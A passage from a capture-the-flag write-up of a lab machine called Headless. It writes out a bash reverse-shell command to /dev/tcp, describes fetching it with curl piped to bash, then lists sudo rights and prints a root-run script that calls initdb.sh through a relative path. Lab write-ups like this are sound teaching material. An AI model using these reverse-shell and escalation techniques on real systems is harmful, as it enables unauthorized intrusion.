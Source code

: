 We get the result of the `pwd` command so we proceed with a reverse shell. I started by directly entering the command `/bin/bash -i >& /dev/tcp/IP/1337 0>&1` with no results, so I proceeded by placing the command in a file and loaded and ran it via curl in pipe with bash and I had the shell.

<p>
  <img src="assets/img/writeupImgs/headless/reverse_shell.png" 
  alt="Descripción"/>
</p>

In */home/dvir* there is the user flag.

## 5. User to ROOT

To escalate, we start by running the *sudo -l* command.

```bash
dvir@headless:~/app$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

As you can see, you can run the *syscheck* command as superuser without knowing the password.

```bash
dvir@headless:~/app$ cat /usr/bin/syscheck
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1                                                    
fi
                                                        
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)                                                                                                                    
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

```